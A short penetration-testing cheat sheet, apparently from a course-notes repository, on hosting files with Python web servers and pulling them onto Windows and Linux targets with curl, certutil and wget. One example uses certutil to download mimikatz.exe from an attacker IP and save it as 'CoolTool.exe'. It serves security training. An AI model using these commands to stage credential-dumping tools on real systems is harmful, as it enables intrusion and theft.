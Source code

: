 # File Transfer

* [Python Web Server](#python-web-server)
* [Transferring Files To Windows Targets](#transferring-files-to-windows-targets)
* [Transferring Files To Linux Targets](#transferring-files-to-linux-targets)
* [References](#references)

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Python Web Server

### Python2
```
python -m SimpleHTTPServer [PORT]
```
  
### Python3
```
python3 -m http.server [PORT]
```

***********************************************************************

## Transferring Files To Windows Targets

```
curl http://10.10.16.12/coolfile.txt -o .\coolfile.txt
```

```
certutil -urlcache -f [URL-ADDRESS-PATH] [OUTFILE]
```
Example:  
```
certutil -urlcache -f http://10.10.5.2/mimikatz.exe CoolTool.exe
```

***********************************************************************

## Transferring Files To Linux Targets

If you can't open a new tab in the terminal, but need multiple tabs:
```
tmux
```

```
wget [URL-ADDRESS-PATH]
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
